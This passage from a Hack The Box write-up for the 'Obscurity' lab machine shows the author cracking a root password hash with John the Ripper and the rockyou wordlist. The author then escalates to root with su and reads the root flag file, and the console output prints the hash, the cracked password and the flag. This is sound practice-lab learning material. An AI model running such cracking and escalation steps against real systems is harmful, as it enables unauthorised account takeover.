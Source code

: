```console
99999
7
```

So, we can probably crack this -- but I am going to back to my local machine to do so:

```console
root@discovery:~/htb/obscurity# vi root.hash 
root@discovery:~/htb/obscurity# cat root.hash 
$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1
root@discovery:~/htb/obscurity# john -w=/usr/share/wordlists/rockyou.txt root.hash
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
mercedes         (?)
1g 0:00:00:00 DONE (2020-02-14 18:42) 5.000g/s 2560p/s 2560c/s 2560C/s angelo..letmein
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Now that I've got a password, I should be able to `su -` to root on the box:

```console
robert@obscure:~/BetterSSH$ su -
Password: 
root@obscure:~# id;cat /root/root.txt
uid=0(root) gid=0(root) groups=0(root)
512fd4429f33a113a44d5acde23609e3
root@obscure:~# 
```

# Conclusion

This machine was heavy on python. I am not anywhere near the strongest coder, I feel like I have an *okay* grasp at reading it -- but that probably speaks more to my inexperience with what I don't even know. It was a fun box -- I didn't realize it was a medium even until I was finishing this writeup, so I am pretty proud of that. I typically stick with the easy boxes.